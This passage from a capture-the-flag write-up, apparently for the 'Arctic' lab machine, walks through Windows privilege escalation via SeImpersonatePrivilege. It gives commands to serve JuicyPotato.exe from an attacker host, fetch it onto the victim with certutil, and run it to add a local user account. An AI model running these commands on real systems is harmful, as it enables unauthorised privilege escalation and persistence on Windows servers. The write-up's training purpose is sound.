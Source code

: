 <br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

After enumerating the system, I find that the compromised account has the **SeImpersonatePrivilege** privilege enabled, which is very likely to make the machine vulnerable to a version of **RottenPotatoNG**, **[ohpe's Juicy Potato](https://github.com/ohpe/juicy-potato){:target="_blank"}** (I don't forget to access the contents of the first flag). So I download the executable to transfer it to the victim machine and try to escalate privileges, I check the integrity of the `JuicyPotato.exe` binary so that it runs correctly. My first attempt is to create a new account, the command runs without problems but I do not observe that the operation was successful.

> **Victime Machine**:

```cmd
whoami /priv
# SeImpersonatePrivilege        Impersonate a client after authentication Enabled
systeminfo
# OS Name:                   Microsoft Windows Server 2008 R2 Standard

dir /r /s user.txt
```

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/JuicyPotato.exe ./
mv JuicyPotato.exe JP.exe
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
certutil.exe -f -urlcache -split http://10.10.14.22/JP.exe
certutil.exe -hashfile .\JP.exe MD5
```

> **Attacker Machine**:

```bash
md5sum JP.exe
```

> **Victime Machine**:

```cmd
.\JP.exe
# :)

.\JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user oldb0y oldb0y123 /add"
net user
net user oldb0y
# :( ?
```
